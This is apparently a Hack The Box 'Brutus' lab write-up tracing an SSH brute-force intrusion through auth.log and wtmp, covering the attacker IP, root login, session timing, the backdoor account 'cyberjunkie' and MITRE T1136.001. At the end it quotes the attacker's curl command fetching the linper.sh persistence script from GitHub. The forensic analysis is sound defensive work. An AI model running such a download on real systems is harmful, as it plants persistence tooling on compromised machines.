

# Brutus:

First thing is to analyze the provided assets.

Looking at the `auth.log` file we found an indicator of a brute force attack, as there are many failed login attempts in a very short time, so I determined the IP address of the attacker is `65.2.161.68`:

After looking more logs, I confirmed that the bruteforce attack was successful and the attacker gained access to the `root` account on the server:

Paying attention to the timestamps, I saw that the attacker entered the credentials manually at `06:32:44`, after they were obtained with an automated tool:

But I needed to determine the exact time where the attacker had an interactive terminal connected, not only when the password was accepted. In order, to do that I checked the `wtmp` output running `cat wtmp.out | grep 65.2.161.68` (Display the content of `wtmp.out` and search on it for the lines that containd the IP `65.2.161.68`):

Something important to note here is that I am located in the **UTC-5** timezone, which is **5-hour difference** between the logs fromHack the Box, who uses **UTC**, so the correct answer is `2024-03-06 06:32:45`. 

To determine the session number I cheked the line after the `open session` log line, to found that the session number is `37`:

To find the new user the attacker added as part of their persistence strategy I search for `useradd`, `usermod` and `groupadd` key words and I found:

The logs clearly show the creation of the user `cyberjunkie`.

Next, to determine the MITRE ATT&CK sub-technique ID used, I browsed to the [MITRE ATT&CK Framework website](https://attack.mitre.org) and head to **Matrices => Enterprise** to locate the ID of the tactic used by the attacker. Headed to **Persistence** and **Create Account** (ID T1136). Under the Sub-techniques of **Create Account** I found **Local Account** which is the technique being used, with the ID `T1136.001`.

Now, to check the time the attacker's first SSH session ended I review the auth.log and looked for `session 37`, as `37` is the session ID found before. The session was closed at `06:37:24`.

Looking a few lines after we see two obvious logs executing `sudo` commands:

This logs show that the attacker downloaded a script from a Guthub repository. The command used was `/user/bin/curl` `https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`. This means the attacker tried to deploy additional tools in the victim machine.